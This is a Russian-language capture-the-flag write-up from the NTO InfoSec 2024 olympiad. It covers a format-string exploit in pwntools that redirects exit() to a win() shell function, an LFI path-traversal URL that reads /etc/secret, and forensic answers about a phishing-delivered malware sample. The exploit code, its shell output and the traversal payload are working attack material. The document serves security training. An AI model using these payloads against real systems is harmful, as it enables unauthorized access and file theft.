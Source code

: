 # NTO-InfoSec-2024-writeups
# Команда "two_raccoons_enough"
____
# Task based
## PWN
### 10 баллов
Залив исходники в дизассемблер, мы можем заметить функцию `win()`, которая возвращает  `/bin/sh`, способный дать нам контроль над машиной. В функции `main()` содержится memory unsafe `printf(format: &var_418)`, уязвимая к f-strings. 
```shell
┌──(kali㉿KaliOlymp)-[~/Downloads]
└─$ nc 192.168.12.13 1923        
%x %x %x %x
78252078 fbad2088 15a62ac 0
```
Проверив эту гипотезу, мы приступили к редактированию кода, который использовался в райтапах на подобную задачу, [найденного на CTFTime](https://ctftime.org/writeup/33272).
```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ubume.crewctf-2022.crewc.tf', 1337)
    else:
        return process(e.path)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Этот код не работал и не совсем подходил для нашего таска, поэтому пришлось его отредактировать
```python
from pwn import *


binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF("/home/kali/Desktop/main")
r = ROP(e)

gs = '''
continue
'''

def start():
    return remote('192.168.12.13', 1923)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Эксплоит успешно передал управление функции `win()`, которая дала нам полный доступ к уязвимой машине
```shell
┌──(kali㉿KaliOlymp)-[~/Desktop]
└─$ python exploit.py -h ./main
[*] '/home/kali/Desktop/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 4 cached gadgets for '/home/kali/Desktop/main'
[+] Opening connection to 192.168.12.13 on port 1923: Done
[*] Switching to interactive mode
```
```shell
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
main
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
nto{easy_formt_string}
$  
```
Мы получили флаг: **nto{easy_formt_string}**
____
## Web 
### 10 баллов
На сайте мы сразу же видим число 20, на которое можно нажать. Нажав мы видим `Hint_1 maybe in etc/secret ???`.
Это явный намёк на LFI. Просто меняем путь в строке на http://192.168.12.10:5001/download?file_type=../../../../etc/secret и получаем флаг:
**nto{P6t9_T77v6RsA1}**
____
## Crypto
### 10 баллов
____
## Расследование инцидента
____
### Машина на Windows
____
#### Вопросы
- [X] Каким образом вредоносное ПО попало на компьютер пользователя? Стоимость: 5
- [x] С какого сервера была скачана полезная нагрузка? Стоимость: 5
- [x] С помощью какой уязвимости данное ВПО запустилось? В каком ПО? Стоимость: 5
- [x] Какие методы противодействия отладке использует программа? Стоимость: 10
- [x] Какой алгоритм шифрования используется при шифровании данных? Стоимость: 10
- [ ] Какой ключ шифрования используется при шифровании данных? Стоимость: 25
- [ ] Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? Стоимость: 20
- [ ] Каково содержимое расшифрованного файла pass.txt на рабочем столе? Стоимость: 40
____
#### Ответы
 + `Вредоносное ПО было загружено из фишингового письма по почтовой рассылке`
 + `Подробности на скрине` ![9db72216-d991-4b9e-8c0a-d85e8c3f1560_Screenshot_2024-03-21_15-38-04](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/b5f2e878-a705-41dd-8707-783f7566b5d7)
 + `Запустилось в WinRar(е) . Открыв приложение LastActivityView находим что прямо перед тем как запустился Rjomba.exe Запустился винрар и вызвалась командная строка. Подробности на скрине` ![71f20a33-1011-42fb-b6d9-d7bd25b93d85_Screenshot_2024-03-21_17-43-19](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/0d5de590-41aa-4686-ae00-9400ea387b1d)
 + `Вирус моментально закрывает процесс монитор и процесс хакер`
 + `Вирус использует алгоритм блочного шифрования AES CBC` ![Screenshot_2024-03-21_17-44-27](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/71fba839-eccb-446e-a93a-73ad162bc277)


